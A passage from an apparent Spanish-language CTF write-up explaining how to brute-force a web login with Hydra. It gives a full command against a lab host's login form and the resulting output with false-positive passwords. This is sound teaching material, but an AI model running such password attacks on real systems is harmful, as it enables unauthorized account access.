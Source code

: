 Entonces, para realizar el ataque a cada login, debemos de darle lo siguiente:
* A qué lugar será dirigido el ataque, un servicio, un login web, etc.
* Los parámetros que se usan para enviar el usuario y contraseña.
* Y un filtro que indique un resultado correcto, ya sea que evite resultados con cierto texto, que solo acepte resultados que nos redirijan (obteniendo el código de estado 302), etc. Podemos usar un filtro que evite respuestas que den mensajes de error.

Pero aquí nos enfrentamos a un problema, pues al aplicar la fuerza bruta al login de la página web del **puerto 5678**, nos dará falsos positivos:
```bash
hydra -l 'usuario@maildelctf.com' -P ./rockyouMatch.txt 192.168.100.120 -s 5678 http-form-post "/rest/login:emailOrLdapLoginId=^USER^&password=^PASS^:F=Wrong username or password. Do you have caps lock on?"
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-09-19 15:15:22
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 611309 login tries (l:1/p:611309), ~38207 tries per task
[DATA] attacking http-post-form://192.168.100.120:5678/rest/login:emailOrLdapLoginId=^USER^&password=^PASS^:F=Wrong username or password. Do you have caps lock on?
[5678][http-post-form] host: 192.168.100.120   login: usuario@maildelctf.com   password: BABYGIRL1
[ERROR] the target is using HTTP auth, not a web form, received HTTP error code 401. Use module "http-get" instead.
[ERROR] the target is using HTTP auth, not a web form, received HTTP error code 401. Use module "http-get" instead.
[ERROR] the target is using HTTP auth, not a web form, received HTTP error code 401. Use module "http-get" instead.
[ERROR] the target is using HTTP auth, not a web form, received HTTP error code 401. Use module "http-get" instead.
[5678][http-post-form] host: 192.168.100.120   login: usuario@maildelctf.com   password: Blink182
[ERROR] the target is using HTTP auth, not a web form, received HTTP error code 401. Use module "http-get" instead.
[5678][http-post-form] host: 192.168.100.120   login: usuario@maildelctf.com   password: P@ssw0rd
[5678][http-post-form] host: 192.168.100.120   login: usuario@maildelctf.com   password: Password1
[5678][http-post-form] host: 192.168.100.120   login: usuario@maildelctf.com   password: Michael1
[5678][http-post-form] host: 192.168.100.120   login: usuario@maildelctf.com   password: !QAZ2wsx
[5678][http-post-form] host: 192.168.100.120   login: usuario@maildelctf.com   password: PRINCESS1
[5678][http-post-form] host: 192.168.100.120   login: usuario@maildelctf.com   password: Princess1
[5678][http-post-form] host: 192.168.100.120   login: usuario@maildelctf.com   password: ANTHONY1
[5678][http-post-form] host: 192.168.100.120   login: usuario@maildelctf.com   password: ILOVEYOU1
[5678][http-post-form] host: 192.168.100.120   login: usuario@maildelctf.com   password: ILOVEYOU2
[5678][http-post-form] host: 192.168.100.120   login: usuario@maildelctf.com   password: Charlie1
[5678][http-post-form] host: 192.168.100.120   login: usuario@maildelctf.com   password: MYSPACE1
[5678][http-post-form] host: 192.168.100.120   login: usuario@maildelctf.com   password: PASSWORD1
[5678][http-post-form] host: 192.168.100.120   login: usuario@maildelctf.com   password: Passw0rd
[5678][http-post-form] host: 192.168.100.120   login: usuario@maildelctf.com   password: JORDAN23
1 of 1 target successfully completed, 16 valid passwords found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-09-19 15:15:33
```
